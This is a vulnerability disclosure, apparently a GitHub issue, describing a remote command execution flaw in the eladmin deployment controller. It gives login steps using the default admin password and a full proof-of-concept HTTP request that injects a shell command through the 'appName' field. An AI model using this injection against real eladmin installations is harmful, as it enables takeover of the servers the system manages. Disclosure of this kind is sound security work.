 # eladmin_rce

BUG_Author: shadia0

Affected version: eladmin v2.7 and before

Project Link: https://github.com/elunez/eladmin

URL: /api/deploy/serverReduction

Parameter: "appName"(POST)

## Description:

The eladmin v2.7 and before has an RCE that can control all application deployment servers of this management system via `DeployController.java`.
1. Log in to the backend with the project's default password `admin/123456`.

2. First simulate normal operation and maintenance operations, create some servers, and deploy some applications on these servers. Here I run a docker locally and map it to port `2222` to simulate the server where the application is deployed
<img width="1356" alt="image" src="https://github.com/user-attachments/assets/caa67c05-3585-4eaa-bd42-d61710923c9f">
Create an application to be deployed arbitrarily.
<img width="1346" alt="image" src="https://github.com/user-attachments/assets/bd35a77f-4008-4efd-a648-f678012bfe78">
Then proceed with the deployment.
<img width="1387" alt="image" src="https://github.com/user-attachments/assets/19f828a6-2fb8-45f3-a429-adcec3341324">
After the application is deployed, we have simulated a backend that is managing sub-servers and applications.

4. Select '运维管理(Operations Management)' - '部署管理(Deployment Management)' from the menu bar in order, and you can see the '系统还原(System Recovery)' function on the right, which is to restore the system with backups. I don't have a backup here, but I can directly construct a request to send to the backend interface. The parameter for command execution is `appName`, and the POC is as follows::
<img width="1469" alt="image" src="https://github.com/user-attachments/assets/40f727d5-f04e-451f-a8cb-9262131e5a02">

```
POST /api/deploy/serverReduction HTTP/1.1
Host: localhost:8013
Content-Length: 81
sec-ch-ua: 
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJiM2E5OWNkY2NiNzk0NzRjOGUzYTUyN2E1ZmUzY2NiYiIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.NmbDtGywNsCE1dtK8ilWCwsEoPxO5F-aqj2jBIzyq45EDYfF9-PTqakUJz50fRo-D-sX8cBJpwQAUZpevgyijQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/serverDeploy
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"id":10000,"appName":"myapp; touch YouknoWhoIs","ip":"127.0.0.1","deployID":1}
```
